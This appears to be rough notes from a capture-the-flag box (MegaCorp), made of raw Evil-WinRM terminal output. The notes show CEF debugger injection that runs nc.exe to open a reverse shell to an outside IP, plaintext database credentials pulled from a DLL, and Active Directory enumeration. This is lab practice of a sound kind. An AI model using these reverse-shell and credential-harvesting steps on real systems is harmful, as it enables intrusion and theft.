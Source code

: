 *Evil-WinRM* PS C:\temo> ./cefdebug
cefdebug.exe : [2020/05/04 16:39:11:1622] U: There are 5 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2020/05/04 16:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/05/04 16:39:31:2215] U: There were 3 servers that appear to be CEF debuggers.
[2020/05/04 16:39:31:2215] U: ws://127.0.0.1:41714/92e1307f-5e07-4548-88db-1b2032853794
[2020/05/04 16:39:31:2215] U: ws://127.0.0.1:23790/932cb619-3803-4f06-9adf-b9331cb2fcc8
[2020/05/04 16:39:31:2215] U: ws://127.0.0.1:11164/6069f187-3df0-4bf9-bf41-80a48cb1fd37
*Evil-WinRM* PS C:\temo> ./cefdebug.exe --url  ws://127.0.0.1:41714/92e1307f-5e07-4548-88db-1b2032853794 --code "process.mainModule.require('child_process').exec('cmd.exe /c C:/temo/nc.exe 10.10.16.76  6666 -e cmd.exe')
At line:1 char:88
+ ... 3794 --code "process.mainModule.require('child_process').exec('cmd.ex ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
The string is missing the terminator: ".
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : TerminatorExpectedAtEndOfString,Microsoft.PowerShell.Commands.InvokeExpressionCommand
*Evil-WinRM* PS C:\temo> ./cefdebug.exe --url  ws://127.0.0.1:41714/92e1307f-5e07-4548-88db-1b2032853794 --code "process.mainModule.require('child_process').exec('cmd.exe /c C:/temo/nc.exe 10.10.16.76  6666 -e cmd.exe')"
cefdebug.exe : [2020/05/04 16:40:45:0599] U: >>> process.mainModule.require('child_process').exec('cmd.exe /c C:/temo/nc.exe 10.10.16.76  6666 -e cmd.exe')
    + CategoryInfo          : NotSpecified: ([2020/05/04 16:...66 -e cmd.exe'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/05/04 16:40:45:0599] U: <<< ChildProcess
*Evil-WinRM* PS C:\temo> 

-----------------------------------------------------------------------------
                                      END
--------------------------------------------------------------------------------
steps for root#
#after getting a shell i tried to enumerate then 

cd /
cd /inetpub/wwwroot/bin
type MultimasterAPI.dll
##Main thing 
({whoami [megacorp\cyork]})
--------------------------------------from API dll--------------------
MASTER7{ "info" : "MegaCorp API" }!application/json?.server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;	nameaSelect * from Colleagues where name like '%{0}%'idposition
userany-D3veL0pM3nT!
--------------------------------------------------------------------------------------------------------------------------------
Command I tried every users from this 
*Evil-WinRM* PS C:\temo> Get-ADGroupMember -Identity Developers
Evil-WinRM* PS C:\temo> Get-ADGroupMember -Identity Developers


distinguishedName : CN=Sarina Bauer,OU=New York,OU=Employees,DC=MEGACORP,DC=LOCAL
name              : Sarina Bauer
objectClass       : user
objectGUID        : 548955df-e515-41c1-9afa-8130103570e2
SamAccountName    : sbauer
SID               : S-1-5-21-3167813660-1240564177-918740779-3102
